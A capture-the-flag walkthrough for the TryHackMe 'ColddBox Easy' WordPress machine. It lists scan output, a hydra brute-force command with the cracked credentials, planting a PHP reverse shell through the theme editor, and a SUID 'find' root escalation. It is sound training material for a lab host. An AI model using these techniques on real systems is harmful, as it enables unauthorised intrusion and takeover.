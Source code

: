 ```yaml
---

title: Walkthrough - Colddbox - Easy
published: true
---
```


Security, Box, PrivEsc, Wordpress. An easy level machine with multiple ways to escalate privileges.

[https://tryhackme.com/room/colddboxeasy](https://tryhackme.com/room/colddboxeasy)

* * *

## Notes

- nmap scans

```shell
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- gobuster initial

```shell
/wp-content           (Status: 301) [Size: 317] [--> http://10.10.210.65/wp-content/]
/license.txt          (Status: 200) [Size: 19930]                                    
/wp-includes          (Status: 301) [Size: 318] [--> http://10.10.210.65/wp-includes/]
/wp-admin             (Status: 301) [Size: 315] [--> http://10.10.210.65/wp-admin/]   
/hidden               (Status: 301) [Size: 313] [--> http://10.10.210.65/hidden/]     
/server-status        (Status: 403) [Size: 277]        
```

- ``/hidden/`` gives us some credentials. C0ldd, hugo, philip.
- ``wpscan --url http://10.10.210.65 -e vp --api-token``
- ``wpxploit`` - ``./exploit.py http://10.10.210.65/ 5 15`` with C0ldd and 0 wordlist we get access.
- ``hydra -l C0ldd -P /usr/share/seclists/Passwords/rockyou.txt 10.10.210.65 http-post-form -m '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+in:The password you entered'``
- ``[80][http-post-form] host: 10.10.210.65   login: C0ldd   password: 9876543210``

* * * 

## What is the user flag?

- login to wp-admin with the credentials and use the appearance editor to edit the main index template - index.php with php monkey reverse shell. 

![](/assets/c0ld01.png)

- ``find / -perm -u=s -type f 2>/dev/null``
- ``/usr/bin/find`` has suid set
- ``find . -exec /bin/sh -p \; -quit`` to gain root.

* * * 

## What is the root flag?

- ``cat /root/root.txt``

* * * 


